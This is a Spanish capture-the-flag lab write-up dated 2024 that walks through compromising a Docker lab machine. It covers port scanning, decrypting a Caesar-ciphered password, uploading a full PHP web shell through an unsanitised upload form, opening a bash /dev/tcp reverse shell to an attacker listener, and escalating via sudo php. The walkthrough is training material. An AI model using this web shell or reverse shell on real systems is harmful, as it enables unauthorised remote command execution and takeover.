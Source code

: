 Fecha: 03/09/2024

Empiezo escaneando la máquina: 
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](imágenes/Pasted%20image%2020240903165012.png)
Por lo que parece tiene tanto http en el puerto 80 como https en el 443. Hay un fichero llamado backup.txt, que voy a ojear: 
![](imágenes/Pasted%20image%2020240903165118.png)
Da la contraseña para el usuario `mateo`, que está cifrada con Caesar (que consiste en sumar el valor de una letra a n y luego hacer módulo del mismo). 

Usaré un script similar al que creé para resolver el reto [credstuff](../../picoCTF/Cryptography/Medium/credstuff/credstuff.md) de picoCTF:

```python
import string
letras_minusculas = list(string.ascii_lowercase)

entrada = "hdvbfuadcb"

n_letras = len(letras_minusculas)

for i in range(n_letras):
    salida = ""
    for caracter in entrada:
        salida += letras_minusculas[(letras_minusculas.index(caracter)+i)%n_letras]
    print(salida)
```

De entre todas las salidas la más legible es "easycrxazy", así que probaré con esa primero (cuando sepa donde usarla, claro).

Cuando accedo por https veo que es un "blog" al que los usuarios pueden subir archivos. De momento, hay un "post1.txt" subido, así que pruebo a intentar subir archivos. Pruebo a subir otros "txts" y funciona: 

![](imágenes/Pasted%20image%2020240903170512.png)

Usaré fuzzing para encontrar el path a los archivos, y ver si podré hacer un local file inclusion:
```bash 
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u https://172.17.0.2/FUZZ  -e .php,.html,.txt,.js,.py -o fuzzing  
```

Hay un directorio uploads, en el que se encuentran los archivos:

![](imágenes/Pasted%20image%2020240903170750.png)
![](imágenes/Pasted%20image%2020240903170818.png)

Intentaré subir una command line de php como la usado en la máquina "Dockerlabs":
#TODO insertar enlace cuando separe las máquinas por ficheros
```php
SHELL:  
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
Simplemente me descargo el código del repositorio y lo meto en el archivo "shell.php". Por lo que parece la subida de archivos no está sanitizada, ya que me permite subirlo directamente: 

![](imágenes/Pasted%20image%2020240903171242.png)

Desde la misma me haré una reverse shell a mi máquina:
```bash
# En la shell virtual:
bash -c 'bash -i >& /dev/tcp/172.17.0.1/9001 0>&1'
# En mi máquina atacante:
nc -lvnp 9001
```


![](imágenes/Pasted%20image%2020240903172228.png)

Tras probar con todas las contraseñas, intento a quitar la x, que me resultaba rara:

![](imágenes/Pasted%20image%2020240903172340.png)

Veo que puedo usar php como superusuario, así que compruebo https://gtfobins.github.io/gtfobins/php/#sudo, de forma exitosa:

![](imágenes/Pasted%20image%2020240903172435.png)
